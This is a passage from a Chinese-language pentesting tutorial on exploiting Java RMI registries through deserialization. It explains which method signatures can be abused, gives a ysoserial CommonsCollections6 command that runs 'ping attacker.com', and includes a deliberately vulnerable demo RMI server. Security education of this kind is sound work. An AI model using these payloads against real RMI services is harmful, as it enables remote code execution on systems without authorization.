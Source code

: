 等等。

我不会深究基本类型和非基本类型的细节，但是对于那些感兴趣的人，你可以在这里看到关于包装类[的更多信息。](https://programming.guide/java/wrapper-types.html)

简而言之，如果您正在处理一个运行在现代 Java 上的 RMI 注册表，并且您想通过反序列化攻击向量在其上执行代码，您需要:

至少找到一种方法

该方法应该利用一个非基元类型的参数

您需要用序列化对象替换该参数

当然，由 ysoserial 生成的小工具链也应该出现在远程类路径上，否则会得到 ClassNotFoundException

例如，如果在远程注册表上发现了一个方法，其签名是

```
String(java.lang.Integer x)
```

您应该创建各自的接口/客户端，使用以下命令生成 ysoserial 有效负载

```
java -jar ysoserial.jar CommonsCollections6 “ping attacker.com -c3”
```

并以序列化的对象作为参数调用该方法…好吧，手动这是不可能的。你需要为此使用一个工具。例如，同样可以使用 RMIScout(还有其他方法，但我发现 RMIScout 的实用程序最用户友好)。而且，它已经内置了 ysoserial，所以在那种情况下真的很方便。

# 使用 RMIScout 和序列化负载攻击 RMI

我将向您展示如何使用 RMIScout 作为开发工具——这个例子非常简单，命令行已经记录在项目的 [GitHub 页面](https://github.com/BishopFox/rmiscout)上。让我们看一下 RMIRegistry 的两个场景。请注意，下面的代码与[第一部分](https://medium.com/@afinepl/java-rmi-for-pentesters-structure-recon-and-communication-non-jmx-registries-a10d5c996a79)中提供的[代码非常相似，只有一点不同——增加了额外的方法。](https://github.com/0xluk3/simple-rmi)

```
**//RMIInterface.java**import java.rmi.*;import java.rmi.registry.*;import java.net.*;interface RMIInterface extends Remote {public String echoObject(Object obj) throws RemoteException;public String echoString(String str) throws RemoteException;public String echoClass(Class cls) throws RemoteException;public String echoInt(Integer inte) throws RemoteException;}**//Server.java**import java.rmi.registry.Registry;import java.rmi.registry.LocateRegistry;import java.rmi.RemoteException;import java.rmi.server.UnicastRemoteObject;import java.rmi.Naming;public class Server extends UnicastRemoteObject implements RMIInterface {public String echoObject(Object obj) throws RemoteException { return “Object: “ + obj.toString(); }public String echoString(String str) throws RemoteException { return “String: “ + str.toString(); }public String echoClass(Class cls) throws RemoteException { return “Class: “ + cls.toString(); }public String echoInt(Integer inte) throws RemoteException { Integer X = inte; return “Integer”; }protected Server() throws RemoteException {super();}public static void main(String[] args) {try {System.out.println(“[+] Trying to bind…”);//Below IP:PORT can be changedNaming.rebind(“rmi://127.0.0.1:11098/RMIInterface”, new Server());System.out.println(“[+] Server started. “);} catch (Exception e) {e.printStackTrace();}}}
```

现在它是用命令编译的

```
 javac *.java
```

